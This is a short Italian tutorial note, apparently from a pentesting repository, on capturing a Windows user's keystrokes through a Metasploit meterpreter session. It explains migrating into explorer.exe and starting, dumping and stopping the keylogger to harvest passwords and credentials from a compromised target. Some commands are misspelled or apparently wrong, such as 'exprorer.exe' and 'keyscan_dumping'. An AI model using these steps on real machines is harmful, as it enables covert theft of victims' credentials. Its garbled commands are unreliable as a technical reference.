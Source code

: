 
# Keylogging su Windows
Il Keylogging é un processo eseguito da un apposito software e viene utilizzato dalle agenzie di inteligence per catturare la sequenza di tasti premuti da un target. <br>
É un processo molto importante per identificare password o credenziali in delle sequenze di tasti premuti da un utente che usa un sistema target. <br>
Esiste un modulo in metasploit in grado di replicare questo comportamento su un target di cui abbiammo ottenuto accesso. <br>
Dopo aver ottenuto una sessione meterpeter su un target, dobbiamo migrare verso il processo `exprorer.exe`:
```bash
pgrep exprorer.exe
migrate <PID>
```
esistono dei comandi per poter eseguire il meylogging dentro meterpreter:
```bash
keyscan_start      # fa partire la scansione dei tasti premuti sul target
keyscan_dumping    # mostra i tasti premuti fino a quel momento
keyscan_stop       # ferma il keylogging 
```

---
